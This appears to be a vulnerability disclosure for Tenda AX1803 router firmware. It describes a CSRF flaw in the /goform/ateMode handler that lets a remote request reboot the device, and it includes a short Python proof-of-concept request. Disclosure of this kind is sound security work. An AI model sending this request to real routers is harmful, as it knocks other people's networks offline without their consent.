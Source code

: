 Affect device: Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/ateMode` page which influences the lastest version of Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4 (https://www.tenda.com.cn/download/detail-3421.html)

The vulnerability exists in the file `/bin/tdhttpd` , function **TendaAteMode** .

![1](img/2-1.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
import requests

url = "http://192.168.23.133/goform/ateMode"

r = requests.get(url)

print(r.content)
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![1](img/2-2.png)

![1](img/2-3.png)

